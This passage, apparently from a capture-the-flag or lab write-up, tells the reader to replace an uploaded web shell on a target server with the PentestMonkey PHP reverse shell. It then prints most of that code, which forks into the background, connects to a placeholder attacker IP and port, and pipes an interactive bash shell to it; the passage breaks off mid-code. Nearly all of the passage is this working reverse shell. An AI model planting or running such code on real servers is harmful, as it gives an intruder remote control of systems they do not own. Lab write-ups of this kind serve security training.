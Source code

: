 While we're at it, we should change `shell.php` from a web shell into a reverse
shell since the server will delete the file periodically. Just replace the code
in `shell.php` with the `PHP PentestMonkey` reverse shell on [revshells.com](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}. It
should look something like this

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.203'; // YOUR IP HERE
$port = 4444; // SAME PORT AS THE LISTENER
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
```
